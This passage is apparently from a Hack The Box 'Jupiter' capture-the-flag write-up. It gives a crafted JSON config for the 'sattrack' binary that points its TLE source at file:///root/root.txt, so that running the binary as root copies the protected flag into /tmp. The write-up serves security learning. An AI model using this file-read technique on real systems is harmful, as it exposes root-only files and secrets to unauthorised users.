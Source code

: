 With this in mind, we can make this satellite tracker system download the root flag `root.txt` and put it inside `/tmp/tle`, which is defined in the `tleroot` key. <br/>
This can be achieved by loading the configuration file below:
```json
{
        "tleroot": "/tmp/tle/",
        "tlefile": "root.txt",   
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "file:///root/root.txt"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}
```

* The only modified 2 values are:
	* `tlefile`, which is set to `root.txt`
	* `tlesources`, which is set to an array of one element that defines the location of the file `root.txt`: `file:///root/root.txt`

We can put this file in the ``/tmp`` directory, and run the `sattrack` binary with root privileges: <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-jupiter/2023-10-19 02_20_00-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Exploitation</i></center>
<br/>
